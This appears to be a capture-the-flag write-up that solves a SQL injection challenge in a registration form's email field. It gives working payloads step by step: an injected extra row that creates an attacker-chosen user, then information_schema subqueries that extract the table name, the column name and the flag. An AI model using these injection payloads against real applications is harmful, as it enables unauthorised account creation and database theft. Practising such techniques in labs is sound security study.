


Here we know that the query looks like:
```sql
Insert into 'table-name' (username, password, email) values ({input},{input},{input})
```

When trying giving `'` in `username` or `password` we get `char not authorised`, however, in `email` we can do that.

Let's try this:
```
username=simpleUser&password=a&email=blabla') -- 
```
When login, we can see this:
```
Username : simpleUser
Email : blabla
```

Now, let's try some advanced techinuqe. We can insert another row of data, like this:
```
blabla'),('ourUser','a','mail') -- 
```
And then we can login with `ourUser:a`
```
Username : ourUser
Email : mail
```

The query will look like
```sql
Insert into 'table-name' (username, password, email) values ('someusername','pass','blabla'),('ourUser','a','mail') -- 
```

By this way, we can inject our queries, for example:
```sql
(select table_name FROM information_schema.tables where table_schema=DATABASE() limit 1 )
```

Notice every time we need to create new user in the original user, and also in the malicious user we injected.
So, first payload will be:
```
blabla'),('random','a',(select table_name FROM information_schema.tables where table_schema=DATABASE() limit 1 )) -- 
```
And we get this:
```
Username : random
Email : flag
```
So, the table name is `flag`.


Then, we'll extract the column name
```
blabla'),('random2','a',(select column_name FROM information_schema.columns where table_name='flag' limit 1 )) -- 
```
And we get this:
```
Username : random2
Email : flag
```
So, the column name is `flag`.

Now, we only need to extract the flag:
```
blabla'),('random3','a',(select flag FROM flag limit 1 )) -- 
```
And we get this:
```
Username : random3
Email : moaZ63rVXUhlQ8tVS7Hw
```



**Flag:** **_`moaZ63rVXUhlQ8tVS7Hw`_**